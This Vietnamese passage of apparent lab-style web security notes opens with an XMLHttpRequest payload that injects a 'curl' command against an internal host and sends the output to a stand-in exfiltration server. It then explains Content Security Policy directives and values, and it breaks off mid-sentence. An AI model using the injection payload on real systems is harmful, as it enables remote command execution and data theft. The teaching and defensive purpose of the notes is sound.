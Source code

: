 - **Khai thác Command Injection**: Nếu lỗ hổng không được xử lý đúng, chúng ta có thể thêm một lệnh `curl` khác để gửi kết quả ra ngoài:
```javascript
var xhr = new XMLHttpRequest();
var params = `webapp_selector=${encodeURIComponent("| curl http://exfiltrate.htb?pwn")}`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
```

Sau khi gửi yêu cầu, chúng ta nhận được kết quả từ lệnh thực thi trên server qua exfiltration server.

---
# Chính sách bảo mật nội dung (CSP)

**Giới thiệu về CSP**

Content Security Policy (CSP) là một cơ chế bảo mật được cấu hình trong tiêu đề phản hồi `Content-Security-Policy`. CSP cho phép quản trị viên web kiểm soát các nguồn tài nguyên mà trang web có thể tải và thực thi, nhằm giảm thiểu các cuộc tấn công như Cross-Site Scripting (XSS) và dữ liệu từ các nguồn không an toàn.

**Cấu trúc của CSP**

Một CSP bao gồm nhiều chỉ thị (directives), mỗi chỉ thị cho phép một hoặc nhiều giá trị. Trình duyệt sẽ thực thi CSP và ngừng tải hoặc thực thi tài nguyên nếu không phù hợp với các giá trị chỉ thị trong CSP.

Ví dụ về một số chỉ thị phổ biến trong CSP:

- **script-src**: Quy định các nguồn được phép tải và thực thi JavaScript.
- **connect-src**: Các nguồn được phép thực hiện các yêu cầu HTTP từ các script, ví dụ như `XMLHttpRequest`.
- **default-src**: Giá trị mặc định nếu không có chỉ thị cụ thể. Ví dụ, nếu không có chỉ thị `img-src`, trình duyệt sẽ sử dụng giá trị của `default-src` cho hình ảnh.
- **frame-ancestors**: Xác định các nguồn được phép nhúng trang vào trong iframe, giúp ngăn chặn các cuộc tấn công Clickjacking.
- **form-action**: Xác định các nguồn được phép gửi dữ liệu từ form.

Các giá trị bổ sung cho các chỉ thị:

- **'none'**: Không cho phép bất kỳ nguồn nào.
- **'self'**: Chỉ cho phép các nguồn từ cùng một miền (origin).
- ***.benignsite.htb**: Cho phép tất cả các miền con của `benignsite.htb`.
- **unsafe-inline**: Cho phép các phần tử inline (ví dụ: inline JavaScript hoặc CSS).
- **unsafe-eval**: Cho phép đánh giá mã động như hàm `eval` của JavaScript.
- **sha256-407e1bf4a1472948aa7b15cafa752fcf8e90710833da8a59dd8ef8e7fe56f22d**: Cho phép một phần tử thông qua giá trị băm (hash).
- **nonce-S0meR4nd0mN0nC3**: Cho phép một phần tử thông qua nonce (mã ngẫu nhiên).

**CSP An Toàn**

Để đảm bảo bảo mật tối đa, CSP cần được cấu hình càng nghiêm ngặt càng tốt. Một cách tốt để thực hiện là bắt đầu với một CSP cơ bản và dần dần nới lỏng các hạn chế cho đến khi ứng dụng web hoạt động như mong muốn. Một CSP cơ bản có thể như sau:
